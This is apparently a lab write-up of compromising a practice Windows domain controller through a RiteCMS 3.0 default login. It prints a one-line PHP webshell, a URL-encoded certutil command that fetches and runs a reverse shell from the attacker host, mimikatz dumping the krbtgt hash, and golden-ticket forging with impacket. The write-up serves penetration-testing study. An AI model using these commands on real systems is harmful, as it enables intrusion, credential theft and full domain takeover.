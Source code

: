 # 0. Sources

||||
|---|---|---|
|[Reddit](https://www.reddit.com/r/oscp/comments/s5puw0/attack_this_active_directory_machine_and_get_your/)|[YouTube](https://www.youtube.com/watch?v=MPrJF3F4mHc)|[Download](https://drive.google.com/file/d/1qCyMsfU6wx67wqV9OEavFYyg66g4QXjK/view)|

<details>
  <summary><h1>1. Nmap Scan</h1></summary>

```console
┌──(root㉿kali)-[~]
└─# nmap -p- -A 10.0.88.38
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-06 19:33 +08
Nmap scan report for 10.0.88.38
Host is up (0.0029s latency).
Not shown: 65506 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/7.4.27)
|_http-title: RiteCMS 3.0 demo - home
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/7.4.27
| http-robots.txt: 1 disallowed entry
|_1
|_http-generator: RiteCMS 3.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-06 11:34:12Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: windomain.local, Site: Default-First-Site-Name)
443/tcp   open  ssl/http      Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/7.4.27)
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| http-robots.txt: 1 disallowed entry
|_1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/7.4.27
|_http-generator: RiteCMS 3.0
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: RiteCMS 3.0 demo - home
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds (workgroup: WINDOMAIN)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: windomain.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3306/tcp  open  mysql?
| fingerprint-strings:
|   DNSVersionBindReqTCP, GenericLines, NULL, SSLSessionReq:
|_    Host '192.168.17.10' is not allowed to connect to this MariaDB server
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc.windomain.local
| Not valid before: 2022-12-05T11:24:42
|_Not valid after:  2023-06-06T11:24:42
| rdp-ntlm-info:
|   Target_Name: WINDOMAIN
|   NetBIOS_Domain_Name: WINDOMAIN
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: windomain.local
|   DNS_Computer_Name: dc.windomain.local
|   DNS_Tree_Name: windomain.local
|   Product_Version: 10.0.14393
|_  System_Time: 2022-12-06T11:35:19+00:00
|_ssl-date: 2022-12-06T11:35:29+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49737/tcp open  msrpc         Microsoft Windows RPC
49858/tcp open  msrpc         Microsoft Windows RPC
⋮
```

</details>

# 2. Checking for exploits

The target has RiteCMS on HTTP and HTTPS, searching for it on **Exploit-DB** returns a plausible [RCE exploit](https://www.exploit-db.com/exploits/50616).

The exploit requires admin on RiteCMS to upload a webshell file, googling for RiteCMS default login show admin/admin as the login

☝️ Always check for default login, it may not work most of the time in real life, but it saves a lot of time when it actually does

The exploit details provides a simple webshell code: `<?php system($_GET[base64_decode('Y21k')]);?>`

`base64_decode('Y21k')` = `cmd`; the webshell will execute the command that in the `cmd` parameter passed to the web server via `GET` method

Save the code as `webshell.pHp` and upload to `File Manager`:

![image](https://user-images.githubusercontent.com/90442032/205908195-9b7742af-c567-4b2c-b380-9a8396d9a6db.png)

Test the webshell:

```console
┌──(root㉿kali)-[~]
└─# curl http://10.0.88.38/media/webshell.pHp?cmd=whoami%20%2Fgroups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384
```

Well done, we got a `SYSTEM`-level RCE, let's try to get a shell

# 3. Getting a shell

Generate reverse shell executable and place in web server root:

(Apache2 is already running with DocumentRoot at `/var/www/html`)

```console
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/reverse.exe
```

Open another console window on Kali to listen for connections:

```console
┌──(root㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
```

Getting the target to download and run the reverse shell:

☝️ The command we want to run is `certutil.exe /urlcache /f /split http://kali.vx/reverse.exe && .\reverse.exe`, but since we are running it from URL, we need to [URL encode](https://www.urlencoder.org/) the command

```console
┌──(root㉿kali)-[~]
└─# curl http://10.0.88.38/media/webshell.pHp?cmd=certutil.exe%20%2Furlcache%20%2Ff%20%2Fsplit%20http%3A%2F%2Fkali.vx%2Freverse.exe%20%26%26%20.%5Creverse.exe
```

Verify that the reverse shell has hooked on from the listener console

```cmd
connect to [192.168.17.10] from (UNKNOWN) [10.0.88.38] 50689
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\media>whoami
whoami
nt authority\system

C:\xampp\htdocs\media>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384
```

Excellent, we now have `SYSTEM`-level shell on the target

# 4. Attacking Active Directory

## 4.1. Retrieve krbtgt password hash

Use the reverse shell to run mimikatz

```cmd
certutil.exe /urlcache /f /split http://kali.vx/mimikatz.exe %TEMP%\mimikatz.exe && %TEMP%\mimikatz.exe
****  Online  ****
  000000  ...
  14ae00
CertUtil: -URLCache command completed successfully.

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

lsadump::lsa /patch
mimikatz # Domain : WINDOMAIN / S-1-5-21-3027074049-3901189072-2930681973

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : b1abbcd15349fb2a40164bab11e2eb70
⋮
```

## 4.2. Create golden ticket

```console
┌──(root㉿kali)-[~]
└─# impacket-ticketer -nthash b1abbcd15349fb2a40164bab11e2eb70 -domain-sid S-1-5-21-3027074049-3901189072-2930681973 -domain windomain.local fakeuser
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for windomain.local/fakeuser
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in fakeuser.ccache
```

## 4.3. Test the golden ticket

```console
┌──(root㉿kali)-[~]
└─# export KRB5CCNAME=fakeuser.ccache

┌──(root㉿kali)-[~]
└─# impacket-psexec windomain.local/fakeuser@dc.windomain.local -k -no-pass -target-ip 10.0.88.38 -dc-ip 10.0.88.38
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.0.88.38.....
[*] Found writable share ADMIN$
[*] Uploading file sjKBeyAc.exe
[*] Opening SVCManager on 10.0.88.38.....
[*] Creating service ghyZ on 10.0.88.38.....
[*] Starting service ghyZ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
